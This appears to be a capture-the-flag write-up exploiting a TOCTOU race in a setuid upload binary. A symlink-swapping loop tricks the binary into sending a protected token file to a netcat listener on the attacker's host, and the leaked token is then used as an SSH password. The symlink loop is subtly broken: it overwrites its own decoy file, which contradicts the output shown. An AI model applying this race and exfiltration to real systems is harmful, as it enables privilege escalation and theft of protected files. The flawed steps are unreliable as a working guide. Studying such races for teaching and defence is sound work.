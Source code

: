 
---
### 🔍 Challenge Description

> The binary at `/home/flag10/flag10` uploads any file passed as an argument, **only if the calling user has access to read it**.  
> The program uses `access()` to check permissions — introducing a classic **TOCTOU (Time-Of-Check-To-Time-Of-Use)** vulnerability.

**Login:** `level10 : level10`  
**Target binary:** `/home/flag10/flag10`  
**Hidden file:** `/home/flag10/token` (readable only by `flag10`)

---

### 📜 Source Code Analysis

```c
if(access(argv[1], R_OK) == 0) {
   ...
   ffd = open(file, O_RDONLY);
   ...
}
```

🧠 **Key Insight:**  
`access()` uses the **real UID/GID**, while `open()` uses the **effective UID/GID**.  
This gap allows a **race condition** — check permission on a dummy file, then swap it with the protected file before `open()` is called.

---

### 🎯 Goal

Exploit the time gap between the access check and the file open call to leak the contents of `token` using a symbolic link attack.

---

### ⚔️ Exploitation Plan

#### 🧱 Step 1: Create a Decoy File

```bash
echo "Here I have full access." > /tmp/token
```

#### 🔁 Step 2: Launch a Netcat Listener on Your Host

_On your host machine:_

```bash
nc -lk 18211
```

This will receive the file sent by the vulnerable binary.

#### 🔗 Step 3: Start the Symlink Race (Terminal 1 in VM)

```bash
while true; do
    ln -sf /home/flag10/token /tmp/token
    ln -sf /tmp/token /tmp/token
done
```

Keep toggling the symlink between a **dummy file** and the **real token**.

#### 🚀 Step 4: Rapidly Trigger the Binary (Terminal 2 in VM)

```bash
while true; do
    /home/flag10/flag10 /tmp/token <YOUR-HOST-IP>
done
```

This will keep sending the contents of `/tmp/token` to your host over TCP — eventually during a successful race window, it will grab the protected token.

---

### 🏁 Step 5: Capture the Flag

_On your host (where `nc` is running)_

```bash
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27   <-- 🏆 This is the token!
```

---

### 🔐 Step 6: Switch to `flag10` and Win

```bash
ssh flag10@localhost
# password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

Then:

```bash
getflag
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

### 🧠 Lessons Learned

This level illustrates the danger of **TOCTOU vulnerabilities** — where permission checks and usage are done separately. These are often subtle and timing-dependent but can lead to **severe privilege escalation**.

🛡️ **Security Tip:**

> Replace `access()` checks with direct `open()` calls using appropriate privileges. If a check must be done, do it using the same logic path and UID that performs the final operation.

---
